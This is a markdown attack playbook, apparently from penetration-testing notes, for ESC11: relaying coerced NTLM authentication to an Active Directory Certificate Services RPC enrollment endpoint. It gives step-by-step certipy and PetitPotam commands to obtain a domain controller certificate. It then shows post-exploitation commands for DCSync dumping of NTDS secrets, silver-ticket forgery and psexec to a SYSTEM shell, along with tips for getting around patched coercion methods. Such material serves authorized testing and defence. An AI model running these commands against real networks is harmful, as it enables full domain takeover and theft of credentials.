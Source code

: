 # ESC11—NTLM Relay to AD CS ICPR Endpoints

## Theory

> [!Overview] Title
> ESC11 mirrors ESC8 but targets the **MS-ICPR RPC** enrollment interface instead of HTTP web enrollment. The ICPR interface can (optionally) enforce an NTLM integrity check via the `IF_ENFORCEENCRYPTICERTREQUEST` flag. If this enforcement is **disabled** (often for legacy interoperability), an attacker can **relay coerced NTLM** to the CA’s ICPR endpoint and request a certificate for a **machine or user** whose auth was relayed. With a machine (or DC) certificate, the attacker can authenticate as that principal (e.g., perform **DCSync** or forge **silver tickets**).

## Requirements

* **ICPR encryption enforcement disabled** on the CA:

  * In practice, `Enforce Encryption for Requests: Disabled` and `Request Disposition: Issue` (as shown by `certipy find`).
* A **published template** that allows **computer enrollment** with **Client Authentication** (e.g., `Machine`/`Computer`, or `DomainController` for DCs).
* Ability to **coerce NTLM** from a target (e.g., **PetitPotam**, **PrinterBug**, **Coercer**).
* Network access to the CA’s **RPC/DCOM** (e.g., 135 + dynamic RPC).
* Tooling: `certipy`, coercion tool of choice, `impacket` (`secretsdump.py`, `ticketer.py`, `psexec.py`).

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_HOSTNAME>` `<DC_FQDN>` `<DC_IP>` `<ADCS_HOSTNAME>` `<ADCS_HOST_FQDN>` `<ADCS_IP>` `<CA_NAME>` `<RELAY_TEMPLATE>` `<USER>` `<PASS>` `<LISTEN_IP>` `<PFX_FILE>` `<CCACHE_FILE>` `<NTHASH>` `<DOMAIN_SID>`

---

## Linux

### Enumerate CA and ICPR Settings

```bash
certipy find -u '<USER>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Confirm: Web Enrollment (not required for ESC11), Request Disposition: Issue,
# and especially: Enforce Encryption for Requests: Disabled  => vulnerable to ESC11
```

### Step 1 — Start NTLM Relay to ICPR (RPC)

```bash
sudo certipy relay -target "rpc://<ADCS_IP>" -ca "<CA_NAME>" -template <RELAY_TEMPLATE>
# Example <RELAY_TEMPLATE>: DomainController (for DCs) or Machine/Computer (for other hosts)
# Certipy listens on 0.0.0.0:445 and relays to the CA over RPC/ICPR
```

### Step 2 — Coerce Authentication from Target

**PetitPotam (example):**

```bash
python3 PetitPotam.py -u '<USER>' -p '<PASS>' -d '<DOMAIN>' <LISTEN_IP> <DC_IP>
# Triggers the target to authenticate to <LISTEN_IP> (your relay listener)
```

> Alternatives: **Coercer**, **PrinterBug**, etc. If one vector is patched/hardened, try another machine or method.

### Step 3 — Receive and Save the Relayed Certificate

```text
[*] Attacking user '<DC_HOSTNAME>$@<DOMAIN_SHORT>'
[*] Requesting certificate for '<DC_HOSTNAME>$' with template '<RELAY_TEMPLATE>'
[*] Got certificate with DNS Host Name '<DC_FQDN>'
[*] Saved certificate and private key to '<PFX_FILE>'
```

### Step 4 — Authenticate with the Certificate

```bash
certipy auth -pfx '<PFX_FILE>'
# => Writes Kerberos ccache (e.g., '<CCACHE_FILE>') and may print the NT hash for the account
```

---

## Post-Exploitation Paths

### A) DCSync (when cert/hash is for a DC)

Using the **TGT/ccache**:

```bash
KRB5CCNAME=<CCACHE_FILE> secretsdump.py -k -no-pass <DC_FQDN>
# Dumps NTDS.DIT secrets (e.g., <DOMAIN>\\Administrator NT hash)
```

Using the **NT hash** directly:

```bash
secretsdump.py '<DC_HOSTNAME>$'@<DC_FQDN> -hashes :<NTHASH>
```

### B) Silver Ticket (for non-DC machine certs)

1. Retrieve **Domain SID**:

```bash
lookupsid.py '<MACHINE_ACCOUNT>$'@<DC_IP> -hashes :<NTHASH>
# Domain SID: <DOMAIN_SID>
```

2. Forge ticket for a service (e.g., CIFS):

```bash
ticketer.py -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn cifs/<DC_FQDN> Administrator
# Saves Administrator.ccache
```

3. Pass-the-Ticket:

```bash
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass <DC_FQDN>
# Expect a SYSTEM shell on <DC_HOSTNAME>
```

---

## Notes & Troubleshooting

* `ntlmrelayx.py` may lack ICPR support; prefer **certipy** for ESC11 relays.
* If coercion output shows `EfsRpcOpenFileRaw is patched`, try other EFSRPC functions or different vectors (e.g., **Coercer**).
* Ensure CA name is correct (`-ca "<CA_NAME>"`); certipy usually prints it during `find`.
* If relay **times out**, confirm 445 reachability from victim to your listener, and that RPC/135 is reachable from your relay to the CA.
* Kerberos requires proper name resolution; configure `/etc/hosts` or DNS for `<DC_FQDN>`/`<ADCS_HOST_FQDN>` as needed.
